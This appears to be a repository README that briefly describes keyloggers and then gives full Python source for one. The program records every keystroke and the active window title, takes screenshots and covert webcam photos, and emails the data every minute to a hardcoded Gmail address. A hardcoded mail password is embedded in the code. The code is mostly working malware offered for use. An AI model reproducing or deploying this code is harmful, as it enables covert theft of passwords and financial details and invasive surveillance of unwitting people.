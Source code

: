 Keyloggers are covert software programs designed to surreptitiously record keystrokes on a computer or mobile device. Operating discreetly in the background, they capture every keystroke made by a user, including sensitive information like passwords, usernames, and credit card numbers. This technology finds application across a spectrum of contexts, ranging from legitimate to malicious purposes.
In the realm of legitimate use, keyloggers serve as valuable tools for surveillance and monitoring. Employers, for instance, may deploy them to track employee activities on company-owned devices, ensuring adherence to organizational policies and safeguarding against unauthorized actions. Likewise, parents may opt to utilize keyloggers to monitor their children's online behaviors, fostering a safer digital environment.
From a cybersecurity perspective, ethical hackers and security researchers leverage keyloggers to identify vulnerabilities in systems and bolster digital defenses. By simulating potential attack scenarios, they can proactively address weaknesses and enhance overall cybersecurity measures, thereby contributing to a safer online ecosystem.
However, the shadowy side of keyloggers emerges in the realm of cybercrime. Malicious actors exploit these tools to perpetrate various illicit activities, such as stealing sensitive information for identity theft, financial fraud, and other cybercrimes. Moreover, state actors and intelligence agencies may employ keyloggers as tools of espionage to clandestinely gather sensitive information from targeted individuals or organizations, raising significant concerns regarding privacy infringement and civil liberties.

# Keyloggers code 
from pynput.keyboard import Key, Listener
from pynput.mouse import Listener as MouseListener, Button
import smtplib
import ssl
import win32gui
import pyautogui
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.image import MIMEImage
import os
import time
import cv2

keys = []
start_time = time.time()

def on_press(key):
    global keys
    keys.append(key)
    check_and_send_report()

def on_click(x, y, button, pressed):
    if pressed and button == Button.right:
        take_and_send_screenshot_and_photo()

def check_and_send_report():
    global start_time
    elapsed_time = time.time() - start_time
    if elapsed_time >= 60:  # 1 minute in seconds
        log_to_file()
        email()
        reset_values()

def take_and_send_screenshot_and_photo():
    take_screenshot()
    take_photo()
    send_screenshot_and_photo_email()

def email():
    global keys
    global start_time
    
    message = ""
    for key in keys:
        if hasattr(key, 'char'):
            message += key.char
        elif key == Key.space:
            message += ' '
        elif key == Key.enter:
            message += '\n'
        else:
            # If the key is not printable or a special key, ignore it
            continue
    
    active_window_title = get_active_window_title()
    if active_window_title:
        message += f"\n\nActive Window Title: {active_window_title}"
    
    # Add a sentence indicating the time range for the captured keystrokes
    message += f"\n\nKeystrokes recorded from {time.strftime('%H:%M', time.localtime(start_time))} to {time.strftime('%H:%M', time.localtime(time.time()))}"

    sender_email = "mahankalikrishna01@gmail.com"
    receiver_email = "mahankalikrishna01@gmail.com"
    password = "stwi hhky zfsx amnt"  # Replace with your password
    
    msg = MIMEMultipart()
    msg['From'] = sender_email
    msg['To'] = receiver_email
    msg['Subject'] = 'Keylogger Report'

    msg.attach(MIMEText(message, 'plain'))

    # Attach screenshot
    filename = 'screenshot.png'
    with open(filename, 'rb') as file:
        img_data = file.read()
    img_part = MIMEImage(img_data, name=os.path.basename(filename))
    msg.attach(img_part)

    # Attach webcam photo
    photo_filename = 'webcam_photo.png'
    with open(photo_filename, 'rb') as file:
        img_data = file.read()
    photo_part = MIMEImage(img_data, name=os.path.basename(photo_filename))
    msg.attach(photo_part)

    context = ssl.create_default_context()
    with smtplib.SMTP_SSL("smtp.gmail.com", 465, context=context) as server:
        server.login(sender_email, password)
        server.send_message(msg)

def send_screenshot_and_photo_email():
    # Define this function to send the screenshot and webcam photo via email
    pass

def get_active_window_title():
    try:
        return win32gui.GetWindowText(win32gui.GetForegroundWindow())
    except Exception as e:
        print("Error getting active window title:", e)
        return None

def on_release(key):
    if key == Key.esc:
        return False

def log_to_file():
    global keys
    active_window_title = get_active_window_title()
    with open('keylog.txt', 'a') as log:
        log.write("\n".join(map(str, keys)))
        if active_window_title:
            log.write(f"\nActive Window Title: {active_window_title}\n")

def take_screenshot():
    try:
        screenshot = pyautogui.screenshot()
        screenshot.save("screenshot.png")
    except Exception as e:
        print("Error taking screenshot:", e)

def take_photo():
    try:
        # Open the webcam
        cap = cv2.VideoCapture(0)
        ret, frame = cap.read()

        # Save the captured frame
        cv2.imwrite("webcam_photo.png", frame)

        # Release the camera
        cap.release()
    except Exception as e:
        print("Error capturing webcam photo:", e)

def reset_values():
    global keys, start_time
    keys = []
    start_time = time.time()

with Listener(on_press=on_press, on_release=on_release) as listener:
    with MouseListener(on_click=on_click) as mouse_listener:
        listener.join()
